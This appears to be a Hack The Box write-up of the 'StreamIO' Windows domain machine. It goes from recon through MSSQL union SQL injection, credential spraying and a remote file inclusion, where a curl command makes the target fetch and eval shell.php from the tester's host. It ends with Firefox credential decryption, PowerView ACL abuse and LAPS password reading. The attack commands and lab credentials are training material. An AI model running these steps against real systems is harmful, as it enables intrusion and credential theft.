



**Start 14:46 26-03-2025**

---
```
Scope:
10.10.11.158
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -p- streamio -sT -T5 --min-rate=5000 -Pn -vvvv

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-03-26 20:47:51Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2025-03-26T20:49:22+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Issuer: commonName=streamIO/countryName=EU
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49705/tcp open  msrpc         syn-ack Microsoft Windows RPC
```

I also checked for UDP ports, specifically `161` but got the following result:

```bash
sudo nmap -sC -sV -p161 streamio -sU -T5 --min-rate=5000 -Pn -vvvv

PORT    STATE         SERVICE REASON      VERSION
161/udp open|filtered snmp    no-response
```

Time to start analyzing what we've got.

This appears to be a **Windows** machine with a few ports open.

### 445/TCP - SMB


### 80/TCP - HTTP
#### Feroxbuster


Nothing out of the ordinary

### 443/TCP - HTTPS
#### Feroxbuster


Couple of interesting things but let's check out the certificate, since we're dealing with a domain server.


I notice the **watch.streamIO.htb** subdomain, which I add to my `/etc/hosts` list. I then go ahead and look up the website:


And below is the **watch.streamio.htb** subdomain:



#### Gobuster

I went ahead and ran a `gobuster` enum as well because I clearly did not receive what I needed:


Here I found the `/master.php` endpoint, which `feroxbuster` did not manage to find.


Other than that I didn't really manage to find anything else here. I then decided to enumerate the subdomain:


Here I managed to find the `/search.php` endpoint.


When clicking on **Watch** I get this error:


### Burpsuite - SQLi

I opened up `burp` and started playing around with the params, thinking I could maybe get some SQLi action going.


Since we're dealing with a **Windows** machine however, we're HIGHLY LIKELY going to be injecting `MSSQL` commands.

I started off with `' UNION select 1-- -` and then worked up with the amount of columns until I'd get a response:




It seems like the amount of columns is `6`, so now we need to modify the UNION query.

I went ahead and inserted the `@@version` command to check the MSSQL version:


>For the following I went over to the website since it wasn't clearly readable on `burp`.

:::important
Sidenote: for all the below queries I had to resort to [this cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
:::

I then enumerated the databases.

```sql
American' UNION select 1,name,3,4,5,6 from master..sysdatabases-- -
```


Then went on to enumerate the `STREAMIO` database:


Next up I enumerated the `users` columns:


Next I enumerated the usernames:

:::caution
There was a metric shit ton of them.
:::


And now the passwords:


I started cracking them with `crackstation`:


Now we got a huge list of password spray-able credentials.

### Password Spraying

I tried to password spray the creds against either `winrm` or `smb` but neither worked unfortunately, so I decided to try out the web server instead using `hydra`:


We got a valid set of creds!

```
yoshihide
66boysandgirls..
```

We can now go ahead and access the `/admin` panel:


### Endpoint Fuzzing - wfuzz

I then went ahead and started fuzzing for other endpoints as I suspected there'd be more (the guided mode told me).

For this I needed the session cookie:


```bash
wfuzz -u https://streamio.htb/admin/\?FUZZ\= -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=kfr3bfkljibfpckvc8lt3sjs7s" --hh 1678
```


As I quickly found out, there's another param here `debug`.


:::note
I honestly got a bit stuck here and had no clue what to do, then checked a writeup and understood that I should use `php wrappers`.
:::


Now I got the following output, which I can then use `echo base64 -d` on.


We get the source code for the `master.php` page:

```php
<SNIP>

<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>%
```

We notice the `include` param on the POST variable.

### Remote File Inclusion

Since the source code is talking about including the `index.php` page we can try and include our own 'page' instead.

I'll create a simple `shell.php` file:


:::note
Since the server is running `eval` I won't have to use `<php?>` wrappers.
:::

We can then run the following in order to include our file, run it as a `POST` request, and finally get RCE.

```bash
curl --insecure -b "PHPSESSID=kfr3bfkljibfpckvc8lt3sjs7s" -X POST --data "include=http://10.10.16.2/shell.php" https://streamio.htb/admin/index.php\?debug\=master.php
```


## Foothold
### Enumeration


After finally getting access I tried to check my privs:


Nothing notable unfortunately, they're not making it easy for us...


Sucks, we can't view any of the directories...

I went back into the `C:\inetpub` directory and started enumeration from there again

Here I found a few thing:


Which resulted in the following:



:::note
- Enumerate and find the MSSQL db credentials inside the `C:\inetpub` directory
:::

### Creds

Since there were way too many files in the web root I used the following command to recursively check through the files:

```powershell
dir -recurse *.php | select-string -pattern "database"
```


We get two new user id's, `db_user` and `db_admin`. Naturally I'll want to try the admin first.

```
db_admin
B1@hx31234567890

db_user
B1@hB1@hB1@h
```

## MSSQL

I then tried to use `sqlcmd` interactively but had no luck:


Instead I could issue commands using the `-Q` flag:


Afterwards I tried to get the users but got the same ones as previously, so I had to modify my query slightly.


Instead I gave the `-d` flag with the correct database.


Nice! Let's try and crack em.


We got only 1 new one, the one from *nikk37*, which is coincidentally one of the users on this target.

## Lateral Movement

I can now go ahead and sign in to `winrm` using the newly found creds.

```
nikk37
get_dem_girls2@yahoo.com
```


### user.txt


### winPEAS

I then uploaded `winPEASx64.exe` and let it run, where I found the following notable stuff:


Inside this directory I found even more stuff:


I noticed a file called `logins.json` and checked it out.

```json
{"nextId":5,"logins":[{"id":1,"hostname":"https://slack.streamio.htb","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECG2cZGM1+s+hBAiQvduUzZPkCw==","encryptedPassword":"MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECKA5q3v2TxvuBBjtXIyW2UjOBvrg700JOU1yfrb0EnMRelw=","guid":"{9867a888-c468-4173-b2f4-329a1ec7fa60}","encType":1,"timeCreated":1645526456872,"timeLastUsed":1645526456872,"timePasswordChanged":1645526456872,"timesUsed":1},{"id":2,"hostname":"https://slack.streamio.htb","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECDMUru7zbEb0BAiinvqXr8Trkg==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECOXW0KzZftfWBBARYsMPvSrUwx8+QfJdxzT+","guid":"{739bd2a5-5fec-4e08-97d2-3c619bf02be2}","encType":1,"timeCreated":1645526470377,"timeLastUsed":1645526470377,"timePasswordChanged":1645526470377,"timesUsed":1},{"id":3,"hostname":"https://slack.streamio.htb","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECPtpFUOBoOFABBDVCjdAdstUxzB6i9DCqvOw","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECCocciyfDsthBBDm3YSuhBsW3roo3l3zOUuF","guid":"{a98a87bc-86aa-489c-9227-d6579ab5148b}","encType":1,"timeCreated":1645526484137,"timeLastUsed":1645526484137,"timePasswordChanged":1645526484137,"timesUsed":1},{"id":4,"hostname":"https://slack.streamio.htb","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECB1j+gQdXzIuBAgO0o/N3J2MrQ==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECNt9zddW+/h7BBCBgoQVGaDQjF2IpeQEl/Td","guid":"{2be21548-7c50-42f0-8ef6-b33b1e77f150}","encType":1,"timeCreated":1645526511842,"timeLastUsed":1645526511842,"timePasswordChanged":1645526511842,"timesUsed":1}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
```

It seemed to hold encrypted usernames and passwords, however I had no clue how to decypher them.

## Mozilla Password cracking

I found [this tool](https://github.com/lclevy/firepwd) that would help me crack the passwords:


Then I had to install the pip packages and went ahead and ran it:


We found a new set of creds!

```
JDgodd
password@12
```

However I also notice the password for the *admin* user is some sort of anagram for *JDgodd*, let's add all these passwords to a list and spray them.

## More Password Spraying


Indeed the password for *admin* is actually for the *JDgodd* user!


However we cannot login via `winrm`.

## Bloodhound

To fully grasp the AD network I will upload `SharpHound.ps1` and execute it, then check out the results in `BloodHound`.


After ingesting the data we notice that *JDGodd* is part of the **CORE STAFF** group. This group has the **ReadLAPSPassword** permission enabled:


## PowerView

Let's upload `PowerView.ps1` and import it and get to work.


```powershell
# Set up credentials
$pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)

# Then add them to the group
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\JDgodd"
```


Now we can go ahead and use `netexec` with the `--laps` option in order to read the **LAPSPassword**:


We got it! Let's use `psexec` to log in as admin.


## Privilege Escalation

```
administrator
13IFj++6(7[J]&
```


EZ PZ.

### root.txt


---

**Finished 12:33 19-04-2025**

[^Links]: [[Hack The Box]] [[OSCP Prep]]